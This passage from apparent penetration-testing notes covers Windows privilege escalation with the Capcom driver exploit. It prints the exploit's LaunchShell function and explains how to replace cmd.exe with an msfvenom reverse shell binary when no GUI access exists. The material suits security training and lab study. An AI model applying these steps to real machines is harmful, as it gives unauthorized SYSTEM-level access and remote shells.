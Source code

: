 This launches a shell with SYSTEM privileges.

<figure><img src="../../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

### Alternate Exploitation - No GUI

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```
